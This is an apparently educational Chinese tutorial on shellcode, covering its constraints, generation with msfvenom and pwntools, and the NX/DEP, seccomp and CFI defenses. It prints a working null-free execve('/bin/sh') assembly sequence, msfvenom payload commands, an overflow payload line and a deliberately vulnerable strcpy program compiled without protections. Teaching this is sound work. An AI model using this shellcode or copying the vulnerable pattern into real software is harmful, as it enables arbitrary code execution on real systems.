

# 二进制漏洞与利用基础（3）· Shellcode概念

> [!abstract] TL;DR
> - **Shellcode** 是一段**直接通过系统调用执行任意操作**的机器码，历史上得名于"执行 shell"这一经典目标。
> - 它依赖两个前提：**可执行的内存区域**（存放 shellcode 的页有 `PROT_EXEC` 权限）+ **控制流跳转到它**（如栈溢出覆盖返回地址）。
> - 编写 shellcode 有三大约束：**避免 null 字节**（截断字符串复制）、**位置无关**（不能依赖固定地址）、**字符集限制**（某些路径只允许可打印字符）。
> - **关键转折**：NX/DEP（W^X 策略）使"栈/堆可执行"失效，将传统 shellcode 注入攻击逼入死角，催生了 ret2libc 和 ROP。
> - **防御**：NX/DEP + W^X、seccomp 限制 syscall、CFI 限制间接跳转。

---

## 概述与定位

### 名字由来与本质

"Shellcode"这个词来自 1990 年代的 UNIX 漏洞利用实践——当时溢出漏洞最经典的利用目标是在目标进程中执行 `/bin/sh`（"打开一个 shell"），所以用于实现这一目的的机器码被叫做 shellcode。

从技术本质来看，shellcode 是一段**自包含的机器码片段**，它：

1. 不依赖操作系统加载器的重定位（必须位置无关）；
2. 不调用 C 库函数，而是**直接触发系统调用**（`syscall`/`int 0x80`）；
3. 被注入到目标进程的内存空间后，通过劫持控制流（如覆盖返回地址）来执行。

现代语境下，shellcode 并不一定真的"打开 shell"——任何通过此方式执行的机器码片段都可以这么叫，包括反向连接、读文件、创建用户等操作。但"直接调 syscall、不依赖库"的核心特征不变。

> [!note] 与 [[21.Asm/00 总览.md|汇编知识库]] 的关系
> 理解 shellcode 的约束与编写方式，需要熟悉目标架构的系统调用约定（Linux x86-64 下：`rax` = 系统调用号，`rdi/rsi/rdx` = 参数，`syscall` 指令触发；详见 [[21.Asm/23 调用约定对比.md]]）和指令编码（某些指令天然含零字节，需要等价替换；详见 [[21.Asm/15 x86(64).md]]）。

### 在本系列中的位置

本篇承接 [[02.栈溢出基础]]——栈溢出提供了"覆盖返回地址、劫持控制流"的能力，而 shellcode 是这一能力在"没有 NX 保护时"最直接的利用手段。本篇的**核心结论**是：NX/DEP 的出现使传统 shellcode 失效，从而引出 [[05.ret2libc]] 和 [[06.ROP入门]] 中的绕过技术。

---

## 原理与机制

### shellcode 的两大前提

```
目标进程内存
┌──────────────────────────────────────────────────────┐
│  代码段 (.text)   R-X   ← 正常代码在这里执行            │
│  数据段 (.data)   RW-   ← 普通数据，不可执行             │
│  栈               RW-   ← 局部变量、返回地址             │
│       ↑                                               │
│  [如果栈标记为 RWX，攻击者把 shellcode 写到栈上，        │
│   再把返回地址指向它，shellcode 就能执行]               │
└──────────────────────────────────────────────────────┘
```

**前提一：存放 shellcode 的内存页必须有执行权限。**
在没有 NX 保护的时代，栈、堆的内存页权限常为 `RWX`（可读可写可执行），攻击者可以把 shellcode 直接写入这些区域。

**前提二：控制流必须跳转到 shellcode 的起始地址。**
最经典的方式是栈溢出覆盖返回地址（见 [[02.栈溢出基础]]）；也可以通过覆盖函数指针、虚表指针、GOT 条目（见 [[11.ELF文件详解/17.got节.md]]）等方式实现。

两个前提缺一不可：有可执行内存但控制流无法跳过去，或者控制流能跳到某处但那里不可执行，shellcode 都无法运行。

### 系统调用直接触发

shellcode 的典型工作方式（以 Linux x86-64 `execve("/bin/sh")` 为概念示例）：

```
1. 构造参数：把字符串 "/bin/sh\0" 的地址放到 rdi，
             argv/envp 数组指针放到 rsi/rdx（或置 NULL）
2. 设置系统调用号：rax = 59  （Linux x86-64 execve 的系统调用号）
3. 触发系统调用：syscall
4. 内核接管：执行 execve，当前进程映像被替换为 /bin/sh
```

没有任何 `printf`、`system`、`libc` 调用——全部操作通过 `syscall` 指令直接与内核通信。这也是为什么 shellcode 不需要依赖 libc 地址，在传统无 NX 场景下自给自足。

> [!warning] 教学说明
> 本节仅展示**概念性伪代码流程**，以说明 shellcode "直接调 syscall"的工作原理。**不提供可直接使用的完整 shellcode 字节序列**——理解原理是防御的基础，而非为武器化服务。

### 三大约束

实际编写 shellcode（或在 CTF 中分析它）时，存在三个常见约束：

#### 约束一：避免 null 字节（`\x00`）

最常见的注入路径是 `strcpy`、`gets`、`scanf` 等字符串函数——这类函数遇到 `\x00`（字符串终止符）就停止复制。如果 shellcode 中有零字节，复制会在零字节处截断，shellcode 不完整，无法运行。

```
原因：
  strcpy(buf, attacker_input);
  遇到 \x00 → 停止 → shellcode 被截断

应对思路（原理层面）：
  某些指令天然编码为 4 字节但含零（如 mov eax, 1 → \xb8\x01\x00\x00\x00）
  需替换为等价的无零指令（如 xor eax, eax; inc eax）
  此类约束迫使 shellcode 编码更复杂，但不影响对 NX 必要性的讨论
```

#### 约束二：位置无关（Position-Independent）

shellcode 被注入到目标进程的哪个地址，往往在编写时无法确定（特别是开启 ASLR 之后）。因此：

- 不能使用**绝对地址**引用（如 `mov rdi, 0x7fff1234`）；
- 必须通过**相对寻址**或**运行期动态计算**地址（如利用 `call/pop` 技巧获取当前 `rip` 值）；
- 这要求 shellcode 编写者熟悉各架构的相对寻址模式（见 [[21.Asm/21 寻址模式专题.md]]）。

#### 约束三：字符集限制

某些注入路径会过滤特定字节（如只接受可打印 ASCII、只接受字母数字等）。这要求 shellcode 字节序列满足特定字符集，进一步限制可用指令集，有时需要用"编码器/解码器"前缀——注入的是经编码的 shellcode，运行时先执行解码器把真正的 shellcode 解出来再执行。

这三大约束说明：即使在没有 NX 保护、可以执行栈上数据的环境中，成功注入一段能用的 shellcode 也需要相当的技巧。

### shellcode 编写约束的演示

约束在原理层面已做说明，本节进一步用代码示例演示**如何在实际汇编中满足这些约束**，使读者理解"约束不是理论，而是每条指令都要过的筛子"。

#### 约束一演示：消除 null 字节

以 Linux x86-64 下将系统调用号（`rax`）置为 59（`execve` 的调用号）为例：

```asm
; ❌ 含 null 字节的写法
mov rax, 59         ; 编码为 48 C7 C0 3B 00 00 00
;                          ^^^^^^^^^^^^^^^^^^^
;                          3B = 59，后三字节 \x00\x00\x00 → strcpy 截断！

; ✅ 方法一：xor 置零再 inc/add（消除零字节）
xor rax, rax        ; 00 编码为 48 31 C0（无零）
mov al, 59          ; B0 3B（单字节立即数，无零）
; 解析：先把 rax 清零，再只写最低字节 al = 0x3B(59)
; 结果：rax = 0x000000000000003B（完整的 59）

; ✅ 方法二：通过移位"构造"含零的大数（避免立即数含零）
; 假设需要 rax = 0x68732f6e69622f（"/bin/sh" 去掉末尾 \0 后的 7 字节）
; 含 \0 的完整版是 0x0068732f6e69622f，直接 mov 含零
; 改用移位：先存 0x68732f6e69622f（无零），push 后栈上有 \0 结尾
push 0x68732f6e          ; 高 4 字节（无零）
mov rdi, rsp             ; rdi 指向栈上字符串的起始
; 注意：这里利用栈在 push 后 rsp-8 处自动有对齐的零填充
```

更系统的做法是用工具（`pwntools` 的 `asm()` + `disasm()`）检查每条指令的字节序列，凡含 `\x00` 的指令寻找等价替换：

```python
from pwn import *
context.arch = 'amd64'

# 检查指令是否含 \x00
instr = asm('mov rax, 59')
print(disasm(instr))
print(instr.hex())           # 输出：48c7c03b000000 ← 含 000000

# 等价无零写法
instr2 = asm('''
    xor rax, rax
    mov al, 59
''')
print(instr2.hex())           # 输出：4831c0b03b ← 无 \x00
```

> [!warning] 教学说明
> 以上 Python 代码需在安装了 pwntools 的 Linux/WSL 环境中执行（`pip install pwntools`）。本机 Windows 可用 WSL 或 Docker 运行。

#### 约束一演示：xor 置零技巧汇总

```asm
; 常见的"置零不产生 \x00"惯用写法（x86-64）
xor rax, rax        ; rax = 0，编码无零字节（48 31 C0）
xor eax, eax        ; eax = 0，同时高 32 位清零，编码 31 C0（更短！）
cdq                 ; 将 eax 符号扩展到 edx:eax，若 eax=0 则 edx=0
                    ; 常用于同时清零 rdx

; 置 1（不能用 inc al，因为 inc al 编码 FE C0，但"mov al,1"= B0 01 也无零）
xor eax, eax
mov al, 1           ; B0 01 无零
```

#### 约束二演示：位置无关的 "/bin/sh" 地址获取

shellcode 不能硬编码 `/bin/sh` 的地址（因为不知道运行时地址），经典的位置无关方法是**把字符串 push 到栈上**，再用 `rsp` 作为指针：

```asm
; 位置无关方式构造 execve("/bin/sh", NULL, NULL)
; x86-64 Linux，syscall 号 59
; 约束：不含 \x00，位置无关

    ; -- 构造 "/bin/sh\0" 在栈上 --
    xor     rax, rax
    push    rax                 ; 压入 8 字节 \x00（作为字符串终止符）
    
    mov     rbx, 0x68732f2f6e69622f  ; "/bin//sh"（8字节，无 \x00）
    push    rbx                 ; 字符串压栈
    mov     rdi, rsp            ; rdi = &"/bin//sh\0"（位置无关！）
    
    ; -- 构造 NULL argv/envp --
    push    rax                 ; NULL
    push    rdi                 ; argv[0] = &"/bin//sh"
    mov     rsi, rsp            ; rsi = argv 数组地址
    xor     rdx, rdx            ; rdx = NULL（envp）
    
    ; -- 触发 execve(rdi, rsi, rdx) --
    xor     rax, rax
    mov     al, 59              ; syscall 号 59 = execve
    syscall
```

> [!warning] 教学说明
> 上述汇编展示了**位置无关 + 无 null 字节**两个约束同时满足的构造方式，仅用于理解约束的处理原理，不建议直接复制。

#### 约束三演示：可打印/alphanumeric 编码简述

当注入路径只允许可打印 ASCII（字节 0x20~0x7E）或字母数字（0x30~0x39, 0x41~0x5A, 0x61~0x7A）时，大多数直接的机器码字节（如 `\x90` NOP = 144 = 0x90，不可打印）都被过滤。应对策略是使用**自解码 shellcode**：

```
注入的字节流结构（alphanumeric 编码后）：

  [可打印的解码器前缀] + [编码后的真实 shellcode]
  
  执行时：
  1. 解码器先执行（全部是合法可打印字节）
  2. 解码器将后方的编码数据解码为真实机器码，写到可执行内存
  3. 跳转到解码后的真实 shellcode 执行

常见工具：
  - alpha3：生成 64 位 alphanumeric shellcode（Domas 2010）
  - msfvenom --encoder x86/alpha_mixed：Metasploit 内置 encoder
  - shikata_ga_nai（"仕方がない"）：多态 XOR additive feedback 编码器，
    每次编码输出不同字节序列（多态），绕过基于字节特征的检测；
    输出不是纯可打印，但用于绕过简单的 AV 签名；
    编码器本身是 x86（32 位），不适用于 x86-64 纯 shellcode
```

> [!info] CTF 视角
> 遇到限制字符集的 shellcode 注入题（常见于 pwnableXXX 类），先用 `checksec` 确认是否真的 NX 关闭（否则编码了也执行不了），再用 pwntools `shellcraft` + `encode` 或 alpha3 生成符合约束的 shellcode。字符集约束往往比 NX 更难绕，优先考虑是否有 mprotect 可调或用 ROP 解码。

### msfvenom 与 pwntools shellcraft 生成对比

在 CTF 和渗透测试中，手写 shellcode 效率低且容易出错；实际工作中更多使用工具生成。两个最主流的工具是 Metasploit 的 **msfvenom** 和 pwntools 的 **shellcraft**，它们在设计哲学和输出结构上有明显差异。

#### msfvenom 生成 x86-64 execve shellcode

```bash
# 生成 Linux x86-64 execve("/bin/sh") shellcode，原始字节，无编码器
msfvenom -p linux/x64/exec CMD=/bin/sh \
         -f raw \
         -o shellcode.bin

# 查看字节序列（hex dump）
xxd shellcode.bin

# 生成 C 语言数组格式（方便嵌入利用代码）
msfvenom -p linux/x64/exec CMD=/bin/sh \
         -f c \
         -o shellcode.c

# 加编码器（绕过简单过滤，但编码后体积增大）
msfvenom -p linux/x64/exec CMD=/bin/sh \
         -e x64/xor \          # x64 XOR 编码器
         -b '\x00' \           # 排除 null 字节
         -f c \
         -o shellcode_encoded.c
```

msfvenom 输出结构（`linux/x64/exec` payload 的典型字节序列，含 `execve` + `exit`）：

```
典型 msfvenom linux/x64/exec 输出结构（概念示意）：

  1. [可选 decoder stub]  ← 若使用编码器，前置解码逻辑
  2. [setup: 构造 /bin/sh 字符串和参数数组]
     - push 0（终止符）
     - mov rbx, '/bin/sh\0'（或分段 push）
  3. [syscall execve(59)]
     - mov rdi, rsp
     - xor rsi, rsi
     - xor rdx, rdx
     - mov rax, 59
     - syscall
  4. [exit(0)]（某些 payload 附带，避免崩溃）
     - mov rax, 60
     - xor rdi, rdi
     - syscall

总字节数：约 23~30 字节（不含编码器），含编码器约 50~100+ 字节
```

> [!warning] 示例命令需在安装了 Metasploit Framework 的 Linux 环境中执行（`msfvenom` 已包含在 Metasploit 中）。本机 Windows 可用 WSL 或 Kali Linux VM 执行。

#### pwntools shellcraft 生成 x86-64 execve shellcode

```python
from pwn import *
context.arch = 'amd64'
context.os   = 'linux'

# 生成 execve("/bin/sh", ["/bin/sh"], NULL) shellcode 汇编文本
print(shellcraft.execve('/bin/sh'))

# 编译为字节序列
sc = asm(shellcraft.execve('/bin/sh'))
print(f"shellcode 长度: {len(sc)} 字节")
print(f"hex: {sc.hex()}")

# 检查是否含 null 字节
if b'\x00' in sc:
    print("警告：含 null 字节！")

# 可嵌入 exploit 脚本
payload = b'A' * 72 + p64(buf_addr) + sc
```

pwntools shellcraft 输出的汇编结构（概念示意，`shellcraft.sh()` 的典型展开）：

```asm
; pwntools shellcraft.execve('/bin/sh') 的概念性输出结构
    
    push   0x68                  ; 'h'
    mov    rax, 0x732f2f2f6e69622f ; '/bin///s'
    push   rax
    mov    rdi, rsp              ; rdi = &"/bin///sh"
    push   0x1010101 ^ 0x6873     ; push NULL（使用 XOR 避免零字节）
    xor    dword ptr [rsp], 0x1010101
    xor    esi, esi              ; rsi = NULL (argv)
    push   rsi
    push   rdi
    mov    rsi, rsp              ; rsi = {"/bin///sh", NULL}
    cdq                          ; rdx = 0（edx 符号扩展，sign extend）
    push   59                    ; syscall 号
    pop    rax                   ; rax = 59
    syscall
    
; 特点：默认尽可能避免 \x00，使用 push/pop 而非直接 mov
```

> [!warning] 以上 pwntools 代码需在安装了 pwntools 的 Linux/WSL 环境中执行。`shellcraft.execve` 的实际输出会因 pwntools 版本和 `context` 设置而略有不同。

#### 两工具的主要差异对比

| 维度 | msfvenom | pwntools shellcraft |
|------|----------|---------------------|
| **定位** | 渗透测试框架组件，内置大量 payload 模块 | CTF/漏洞研究脚本库，集成在利用脚本中 |
| **payload 多样性** | 极丰富（反向 shell、staged payload、Meterpreter 等） | 聚焦 CTF 常用（execve、sh、connect back 等） |
| **编码器** | 内置多种（shikata_ga_nai、alpha 等） | 需手动调用 `encode()`，通常假设能直接注入 |
| **输出格式** | `-f raw/c/python/hex/elf` 等多种 | 直接返回 Python bytes，嵌入 exploit 脚本 |
| **null 字节处理** | 通过 `-b '\x00'` + 编码器消除 | 默认生成尽量无 null 的汇编，不保证 |
| **可审计性** | 需反汇编查看内部结构 | 汇编文本直接可读（`shellcraft.execve` 输出汇编文本） |
| **大小（execve）** | ~23–30 字节（不含编码器） | ~22–27 字节（类似量级） |
| **集成到 exploit** | 通常独立生成，再粘贴到脚本 | `asm(shellcraft.execve(...))` 一行内联 |

> [!info] CTF 使用建议
> CTF 中**优先用 pwntools shellcraft**，因为它和 exploit 脚本（`process`/`remote`/`p64`/`cyclic` 等）天然集成，调试方便。渗透测试中**优先用 msfvenom**，因为它内置了 staged payload、反向 shell 等实用模块。两者都不是"黑盒"——理解了 syscall 约定后，生成的汇编完全透明可审。

---

## 最小教学 Demo

> [!warning] 教学环境声明
> 以下演示**仅用于理解 shellcode 执行所需的内存条件**，不含可直接使用的 shellcode 字节序列。需**关闭多项现代保护**：`-z execstack`（允许栈可执行）、`-fno-stack-protector`（关闭 canary）、`-no-pie`（固定地址）。**生产环境这些保护默认开启**，本演示仅能在专门的 CTF/教学 Linux 环境中复现。

```c
// vuln_shellcode_demo.c
// 教学用：演示"栈上有可执行权限时"的内存条件（不含 shellcode payload）
#include <stdio.h>
#include <string.h>

void vulnerable(char *input) {
    char buf[64];
    // 危险：不检查长度的复制
    // 若 input 包含 shellcode，覆盖返回地址后执行 buf 里的机器码
    strcpy(buf, input);
}

int main(int argc, char *argv[]) {
    if (argc > 1) vulnerable(argv[1]);
    return 0;
}
```

```bash
# 教学编译命令（关闭所有保护，仅用于教学复现）
gcc -o vuln vuln_shellcode_demo.c \
    -fno-stack-protector \   # 关闭 canary
    -z execstack \           # 允许栈可执行（NX 关闭）
    -no-pie \                # 固定基址（关闭 ASLR 随机化）
    -g
```

```bash
# 验证编译结果：用 checksec 确认 NX 已关闭
checksec --file=vuln
```

```text
[*] Checking vuln
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled        ← 栈可执行，shellcode 可在此运行
    PIE:      No PIE (固定基址)
```

> [!warning] 示例输出为示意
> 本机为 Windows 环境，上述 checksec 输出为示意，非实跑结果；在真实 Linux 教学环境中执行以获得准确输出。

```bash
# 查看 GNU_STACK 权限（E 标志 = executable）
readelf -l vuln | grep GNU_STACK
```

```text
  GNU_STACK  0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RWE 0x10
#                                                                              ^^^
#                                                                              RWE 含 E = 栈可执行
```

> [!warning] 示例输出为示意

**用 `readelf -l` 查 `GNU_STACK` 是判断 NX 是否开启的关键手段**：
- `RW`（无 `E`）→ NX 开启，栈不可执行（现代默认）
- `RWE` 或 `RW` + `PF_X` → NX 关闭，栈可执行（高危，仅见于教学/旧系统）

---

## 利用思路（原理层）

不含武器化 payload，仅描述原理链条，以便理解 NX 的必要性：

```
1. 发现注入点
   └─ 如 strcpy(buf, user_input)，buf 长度有限，user_input 无限
   
2. 填充 shellcode + 填充字节 + 覆盖返回地址
   └─ [shellcode 机器码 | padding | 返回地址 → &buf]
   
3. 函数返回时
   └─ CPU 从栈顶弹出"被篡改的返回地址" → 跳转到 buf 起始
   
4. 执行 buf 里的机器码
   └─ 前提：buf 所在内存页有 PROT_EXEC 权限（NX 关闭）
   
5. shellcode 调 syscall 执行目标操作
   └─ 如 execve("/bin/sh") → 获得 shell
```

**NX 如何打断这条链**：步骤 4 执行时，CPU 检查内存页的执行权限。若栈标记为 `RW-`（不含 `X`），CPU 触发缺页异常/保护异常，内核发送 `SIGSEGV` 终止进程——shellcode 无法执行。

---

## 关键转折：NX/DEP 使栈 shellcode 失效

### W^X 策略

NX（No-Execute，Intel 叫 XD，AMD 叫 NX）是 CPU 在硬件层面提供的内存页执行权限控制。操作系统的 W^X（Write XOR Execute，可写不可执行）策略依赖 NX 位实现：

| 内存区域 | W^X 下的权限 | 含义 |
|---|---|---|
| 代码段 `.text` | `R-X` | 只读可执行，不可写 |
| 数据段 `.data`、`.bss` | `RW-` | 可读可写，不可执行 |
| 栈 | `RW-` | 可读可写，不可执行 |
| 堆 | `RW-` | 可读可写，不可执行 |

在这一策略下，**可写的地方不可执行，可执行的地方不可写**（JIT 编译器是例外，需要先 `mmap(RW)` 写入机器码，再 `mprotect(RX)` 转换为只执行，两种权限不同时存在）。

内存映射的实现细节见 [[14.动态链接与加载器详解/04.可执行文件的内存映射.md]]——`PT_GNU_STACK` 段的 `p_flags` 是否含 `PF_X` 位，决定了栈是否可执行；ELF 中 `GNU_STACK` 段 `RW`（无 `E`）即 NX 开启。

### Linux 的 NX 实现

Linux 通过 `PT_GNU_STACK` 程序头条目声明栈是否可执行：链接器默认生成无 `PF_X` 的 `GNU_STACK`，内核在 `mmap` 栈时据此设置 `PROT_READ|PROT_WRITE`（不含 `PROT_EXEC`）。

```
内核 execve 流程（NX 开启时）：
  读 PT_GNU_STACK：flags = RW（无 E）
  mmap(stack, ..., PROT_READ|PROT_WRITE)  ← 无 EXEC
  
攻击者把 shellcode 写到栈上，跳转过去：
  CPU 执行到 stack 地址
  内存页权限 = RW-（无执行权限）
  → CPU 触发 #GP / page fault
  → 内核发送 SIGSEGV → 进程终止
  → shellcode 无法执行 ✓
```

### Windows 的 DEP

Windows 的等价机制叫 **DEP（Data Execution Prevention）**，通过 NX/XD 位实现，自 Windows XP SP2（32 位通过 `/NXCOMPAT` 链接标志 + CPU 硬件支持）和 Vista（64 位默认强制）起成为默认配置。

### 历史影响：催生 ret2libc 和 ROP

NX/DEP 的广泛部署，使"把 shellcode 写到可写内存再跳过去执行"的经典路径失效。攻击者面临的新问题是：

> **可写的地方不能执行——那能否借用已经存在于可执行段（`.text`）中的代码片段来完成操作？**

这一思路催生了两类技术（本系列后续篇章详述）：

- **ret2libc**（见 [[05.ret2libc]]）：不注入新代码，而是把返回地址指向 libc 中现成的 `system()` 函数，传入 `/bin/sh` 字符串地址。整条利用链只用了已在内存中、有执行权限的代码。
- **ROP（Return-Oriented Programming）**（见 [[06.ROP入门]]）：收集程序/库中以 `ret` 结尾的"gadget"片段，通过控制栈上的连续返回地址，把这些片段串联成一条"指令流"，实现任意操作。

NX/DEP 是整个现代漏洞利用技术演化树的关键分叉点：它关上了 shellcode 注入的门，打开了代码复用攻击的窗。

---

## Mermaid：NX 前后 shellcode 的命运



---

## 缓解与防御

### 1. NX/DEP（核心缓解）

**原理**：CPU 硬件 NX 位 + 操作系统 W^X 策略，确保可写页不可执行。

**生效条件**（三层均需满足）：
- CPU 支持 NX 位（x86 AMD64 / Intel XD，2004 年后普遍支持）；
- 操作系统开启 DEP/NX（Linux 默认，Windows Vista+ 默认）；
- 可执行文件用支持 NX 的方式编译（ELF 不含 `PF_X` 的 `PT_GNU_STACK`；PE 带 `/NXCOMPAT` 标志）。

**检测方式**：
```bash
# ELF：checksec 或 readelf
checksec --file=./binary
readelf -l ./binary | grep GNU_STACK
# 期望：GNU_STACK RW  （无 E）

# PE（Windows）：dumpbin 或 CFF Explorer
dumpbin /HEADERS binary.exe | grep -i NXCompat
```

> [!warning] 示例输出为示意

**局限**：NX 阻止了 shellcode 直接执行，但不能阻止 ret2libc/ROP（这些攻击使用已有可执行页中的代码）。NX 是必要但不充分的防御——需要与 ASLR、Stack Canary、RELRO 组合使用。

### 2. W^X 严格执行

- **Linux**：默认 `PT_GNU_STACK` 无 `PF_X`，`mmap` 在大多数内核配置下拒绝同时设置 `PROT_WRITE|PROT_EXEC`；`PaX`/`grsecurity` 补丁进一步强化（严格 W^X，禁止任何 `mprotect` 赋予 `EXEC`）。
- **macOS**：Hardened Runtime 下，`MAP_JIT` 是获取可写可执行内存的唯一路径，且需要显式 entitlement；`maxprot` 字段（见 [[14.动态链接与加载器详解/04.可执行文件的内存映射.md]]）在 Mach-O 段层面也设置了权限上限。
- **Windows**：ACG（Arbitrary Code Guard）阻止进程动态创建或修改可执行内存，是对 NX/DEP 的进一步加强。

### 3. seccomp 限制 syscall

即使攻击者绕过了 NX（如通过 ROP 链），seccomp（secure computing mode）可以在 syscall 层面设置白名单/黑名单，阻止 `execve`、`socket`、`mprotect` 等危险调用：

```c
// 简化示意：seccomp 白名单只允许 read/write/exit
// 攻击者拿到控制流后调 execve → seccomp 拦截 → SIGKILL
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
seccomp_load(ctx);
```

seccomp 在容器安全（Docker 默认策略）、浏览器沙箱（Chrome renderer）、系统服务加固中广泛使用。对 shellcode 直接调 syscall 的方式有直接的阻断效果。

### 4. CFI（Control Flow Integrity）

CFI 从另一个维度防御：即使内存权限被绕过（如 JIT 区域被滥用），CFI 确保间接调用/跳转只能指向合法目标：

| 机制 | 防御目标 |
|---|---|
| `clang -fsanitize=cfi` | 间接调用只能指向签名匹配的函数 |
| Intel CET（IBT/SS） | 间接跳转目标必须有 `ENDBR` 前缀；Shadow Stack 保护返回地址 |
| ARM PAC（Pointer Authentication） | 返回地址携带指针签名，篡改后签名校验失败 |

CFI 对 ROP 有更直接的缓解效果（ROP 依赖劫持 `ret` 指令，Shadow Stack 直接保护返回地址）；对传统 shellcode 注入，NX 已是第一道充分防线。

### 防御层次小结

```
层次           机制                    阻止的攻击
──────────────────────────────────────────────────────
内存权限      NX/DEP + W^X            shellcode 注入执行（本篇核心）
syscall 过滤  seccomp                 即使拿到控制流，危险 syscall 被拦
控制流        CFI / CET / PAC         劫持间接跳转/返回地址（ROP 防御）
地址随机      ASLR + PIE              定位 shellcode/gadget 的地址
栈保护        Stack Canary            检测返回地址被覆盖（见下篇）
```

---

## 检测与工具

### checksec 快速诊断 NX 状态

```bash
checksec --file=./vuln
```

```text
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled          ← 期望看到 NX enabled
    PIE:      PIE enabled
```

> [!warning] 示例输出为示意

| 字段 | 含义 | 期望值 |
|---|---|---|
| `NX` | 栈/堆是否可执行 | `NX enabled`（不可执行） |
| `Stack` | 是否有 canary | `Canary found` |
| `RELRO` | GOT 只读化程度 | `Full RELRO` |
| `PIE` | 是否位置无关（ASLR 随机化） | `PIE enabled` |

### readelf 查 GNU_STACK 权限

```bash
readelf -l ./vuln | grep -A1 GNU_STACK
```

```text
  GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RW  0x10
#                                                                                  ^^
#                                                                                  RW（无 E）= NX 开启
```

> [!warning] 示例输出为示意

若输出为 `RWE`（含 `E`），则栈可执行，表示编译时用了 `-z execstack` 或旧工具链未设置 NX。

### GCC/Clang 编译选项检查

```bash
# 确保 NX 开启（这是现代工具链的默认行为）
gcc -o safe_binary vuln.c        # 默认即 NX 开启
gcc -o unsafe_binary vuln.c -z execstack  # 显式关闭 NX（仅教学）

# 验证链接器默认选项（查看是否含 execstack）
gcc -Wl,--verbose vuln.c 2>&1 | grep -i stack
```

> [!warning] 示例输出为示意

---

## 小结

1. **shellcode 的本质**：直接调用 syscall 的自包含机器码；名字来自"执行 `/bin/sh`"的历史场景，但其核心特征是"不依赖库、直接系统调用"。
2. **两大前提**：存放 shellcode 的内存页必须可执行 + 控制流能跳转到它。前者由内存权限控制，后者通常通过栈溢出（覆盖返回地址）实现。
3. **三大约束**：避免 null 字节（防截断）、位置无关（不依赖绝对地址）、字符集过滤（某些路径的编码约束）——这些约束让编写可用 shellcode 本身就有相当难度。
4. **关键转折**：NX/DEP（W^X 策略）在硬件层面禁止"可写内存被执行"，直接切断了传统 shellcode 注入的完整攻击链。理解这一转折，是理解现代漏洞利用技术（ret2libc、ROP）存在理由的前提。
5. **防御不止 NX**：NX 是必要起点，但 ROP 绕过了它。真正的防护需要 NX + ASLR + Canary + RELRO + seccomp + CFI 的纵深组合——每一层缓解都有其攻防对应关系，详见 [[12.缓解机制总览]] 与系列 34。

---

## 相关阅读

- **本系列上下文**：[[02.栈溢出基础]] · [[04.栈Canary原理]]
- **NX 失效后的替代技术**：[[05.ret2libc]] · [[06.ROP入门]]
- **内存映射与 W^X 实现机制**：[[14.动态链接与加载器详解/04.可执行文件的内存映射.md]]
- **GOT 劫持（另一种控制流劫持路径）**：[[11.ELF文件详解/17.got节.md]]
- **加载器视角的安全加固**：[[14.动态链接与加载器详解/15.加载器视角的安全.md]]
- **系统调用约定与汇编基础**：[[21.Asm/00 总览.md]] · [[21.Asm/23 调用约定对比.md]]
- **各架构安全特性（NX/CFI/PAC/CET）**：[[21.Asm/42 安全特性对比.md]]
- **PLT/GOT 延迟绑定**：[[14.动态链接与加载器详解/08.PLT与GOT与延迟绑定.md]]
- **缓解机制全景**：[[12.缓解机制总览]] · [[34.现代二进制防护机制/00.现代二进制防护机制总览]]

---

⬅️ 上一篇 [[02.栈溢出基础]] ｜ 🏠 [[00.二进制漏洞与利用基础总览]] ｜ 下一篇 [[04.栈Canary原理]] ➡️
